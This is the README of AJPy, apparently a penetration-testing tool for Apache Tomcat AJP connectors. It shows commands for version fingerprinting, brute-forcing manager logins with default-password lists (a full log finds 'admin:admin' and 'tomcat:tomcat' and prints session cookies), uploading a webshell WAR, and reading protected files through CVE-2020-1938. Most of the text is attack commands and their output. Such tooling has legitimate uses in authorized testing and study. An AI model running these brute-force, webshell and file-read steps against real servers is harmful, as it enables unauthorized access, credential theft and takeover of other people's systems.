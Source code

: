 # Intro

AJPy aims to craft AJP requests in order to communicate with AJP connectors.

Reference documentation: https://tomcat.apache.org/connectors-doc/ajp/ajpv13a.html

# Tools

At the moment, only one tool is provided for Tomcat with the following modules:

* version fingerprint
```
$ python tomcat.py version 172.17.0.2
Apache Tomcat/8.0.35
```

* authentication bruteforce
```
$ python tomcat.py -v  bf -U tomcat_mgr_default_users.txt -P tomcat_mgr_default_pass.txt /manager/html 172.17.0.2
[2016-06-10 17:24:55.965] INFO     Attacking a tomcat at ajp13://172.17.0.2:8009/manager/html
[2016-06-10 17:24:56.017] DEBUG    testing admin:admin
[2016-06-10 17:24:56.069] INFO     Found valid credz: admin:admin
[2016-06-10 17:24:56.069] INFO     Here is your cookie: JSESSIONID=1267BE97BFB5BFAEAFAAD76EE648FE06; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.069] DEBUG    testing admin:manager
[2016-06-10 17:24:56.152] DEBUG    testing admin:role1
[2016-06-10 17:24:56.154] DEBUG    testing admin:root
[2016-06-10 17:24:56.155] DEBUG    testing admin:tomcat
[2016-06-10 17:24:56.157] DEBUG    testing manager:admin
[2016-06-10 17:24:56.158] DEBUG    testing manager:manager
[2016-06-10 17:24:56.159] DEBUG    testing manager:role1
[2016-06-10 17:24:56.160] DEBUG    testing manager:root
[2016-06-10 17:24:56.161] DEBUG    testing manager:tomcat
[2016-06-10 17:24:56.164] DEBUG    testing role1:admin
[2016-06-10 17:24:56.164] DEBUG    testing role1:manager
[2016-06-10 17:24:56.165] DEBUG    testing role1:role1
[2016-06-10 17:24:56.166] DEBUG    testing role1:root
[2016-06-10 17:24:56.167] DEBUG    testing role1:tomcat
[2016-06-10 17:24:56.169] DEBUG    testing root:admin
[2016-06-10 17:24:56.170] DEBUG    testing root:manager
[2016-06-10 17:24:56.171] DEBUG    testing root:role1
[2016-06-10 17:24:56.172] DEBUG    testing root:root
[2016-06-10 17:24:56.173] DEBUG    testing root:tomcat
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:admin
[2016-06-10 17:24:56.175] DEBUG    testing tomcat:manager
[2016-06-10 17:24:56.176] DEBUG    testing tomcat:role1
[2016-06-10 17:24:56.177] DEBUG    testing tomcat:root
[2016-06-10 17:24:56.178] DEBUG    testing tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Found valid credz: tomcat:tomcat
[2016-06-10 17:24:56.184] INFO     Here is your cookie: JSESSIONID=9944126F31E428B8847AFEBF2307BB09; Path=/manager/; HttpOnly
[2016-06-10 17:24:56.184] DEBUG    testing tomcat:sstic2016
[2016-06-10 17:24:56.186] DEBUG    testing both:admin
[2016-06-10 17:24:56.187] DEBUG    testing both:manager
[2016-06-10 17:24:56.188] DEBUG    testing both:role1
[2016-06-10 17:24:56.189] DEBUG    testing both:root
[2016-06-10 17:24:56.190] DEBUG    testing both:tomcat
[2016-06-10 17:24:56.191] DEBUG    Closing socket...
```

* WAR upload
```
$ python tomcat.py upload -u tomcat -p tomcat webshell.war 172.17.0.2
```

* WAR undeploy
```
$ python tomcat.py undeploy -u tomcat -p tomcat /webshell 172.17.0.2
```

* Application listing
```
$ python tomcat.py list -u tomcat -p tomcat 172.17.0.2
```

* Reading file using CVE-2020-1938
```
$ python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 172.17.0.2
```


# Thanks
* @MrTchuss for the Tomcat WAR upload fix
* @kalidor for the Tomcat WAR undeploy and application listing
